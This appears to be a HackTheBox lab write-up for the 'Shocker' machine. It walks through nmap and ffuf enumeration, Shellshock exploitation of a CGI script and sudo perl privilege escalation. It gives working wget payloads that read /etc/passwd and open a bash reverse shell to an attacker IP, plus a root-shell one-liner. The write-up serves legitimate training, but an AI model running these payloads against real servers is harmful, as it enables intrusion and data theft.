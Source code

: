 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Shocker/logo.png
date: 2023-02-04 09:45:47+07:00
modified: 2023-02-04 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Shellshock, Shocker, Hackthebox, Writeup]
title: Shocker - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.


# Enumeration

At first, I did a Nmap scan for open ports and services.

`nmap -sC -sV -p- 10.10.1.235 -oG shocker`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.png)

| Ports | Service
|:-------------:|:-------------:|
|80| Apache httpd 2.4.18 ((Ubuntu))
|2222| OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

I visit the website But there is nothing interesting.

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I start enumerating websites using [FFUF]()

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/FUZZ" -ic`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.1.png)

I found [cgi-bin](). Next I did directory enumaration using common extention.

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/cgi-bin/FUZZ" -e .sh,.php,.html`

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I found [user.sh](). 

![](https://photos.squarezero.dev/file/abir-images/Shocker/3.png)

After opening the file I saw the file is executing in the webserver.

![](https://photos.squarezero.dev/file/abir-images/Shocker/03.png)

# Foothold

After looking for sometime I figureout this is a [shellshock]() vulnerability. 

I found the following artical useful. [Exploit](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)

Lets see if we can read `/etc/passwd`.

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/4.png)

After opening the file we can see the commands are being executed. 
![](https://photos.squarezero.dev/file/abir-images/Shocker/5.png)

So, I decided to use a bash reverseshell. And after execution I got a connection back.


`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.37/9000 0>&1" http://10.129.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/6.png)

![](https://photos.squarezero.dev/file/abir-images/Shocker/7.png)

# Privilege Escalation

I check what I can run as sudo. 

![](https://photos.squarezero.dev/file/abir-images/Shocker/8.png)

I can run [perl](). I checked [GTFOBins](https://gtfobins.github.io/) and used following to get root access.



`sudo perl -e 'exec "/bin/bash";'`

![](https://photos.squarezero.dev/file/abir-images/Shocker/9.png)
